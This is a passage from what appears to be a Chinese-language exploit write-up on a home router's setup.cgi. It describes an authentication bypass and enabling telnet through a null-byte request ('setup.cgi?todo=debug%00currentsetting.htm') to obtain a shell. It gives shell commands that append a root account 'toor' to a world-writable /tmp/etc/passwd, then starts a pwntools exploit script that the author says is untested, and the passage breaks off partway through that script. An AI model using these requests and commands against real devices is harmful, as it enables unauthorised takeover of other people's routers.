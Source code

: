 默认返回是0，如果打开a1失败，则返回0，所以设置sp为一个不存在的文件，即可返回0，此时再设置id为0，就达到了绕过验证的目的。  
这是POST类型的认证绕过，可以执行setup.cgi的一些动作。

然后执行 `setup.cgi?todo=reboot`或则save就可以实现更改密码了。

getshell和提权
-----------

同样的通过`setup.cgi?todo=debug`可以开启telnet端口反弹shell出来，但是拿到的仅仅是用户权限，在参考资料中提供一种方式，把新建的root权限用户密码写入/tmp/etc/passwd

```c
To elevate privileges to root it's enough to run the following commands:

  cd /tmp/etc
  cp passwd passwdx
  echo toor:scEOyDvMLIlp6:0:0::scRY.aIzztZFk:/sbin/sh >> passwdx
  mv passwd old_passwd
  mv passwdx passwd

The commands above abuse the fact that:

  1. /etc/ points to /tmp/etc
  2. /tmp/etc/ directory has permissions set to 777 (rwxrwxrwx).
```

拿原版改了一个pwntools版本的，socket脚本实在是看着不舒服，没有设备，下面的poc还没测试过，想看原版poc的直接去下面的参考链接即可。还没拿到设备，qemu启环境起不来，patch了几个地方还是起不来，有了设备再调试下poc  
exp

```python
from pwn import *
import telnetlib
from time import sleep

context.log_level = 'debug'

IP = ""
PORT = 80

def action(data):
    p = remote(IP,PORT)
    p.send(data)
    sleep(3)
    p.recv()
    p.close()

def reset_session_state_or_sth():
    action(
        b'\r\n'.join([
            b"GET /401_access_denied.htm HTTP/1.5",
            b"Host: aplogin",
            b"", b""
            ])
            )

def enable_debug_mode():
    action(
        b'\r\n'.join([
            b"GET /setup.cgi?todo=debug%00currentsetting.htm HTTP/1.5",
            b"Host: aplogin",
            b"", b""
            ])
            )

def change_nvram_password(new_password):
    new_password = bytes(new_password, "utf-8")
```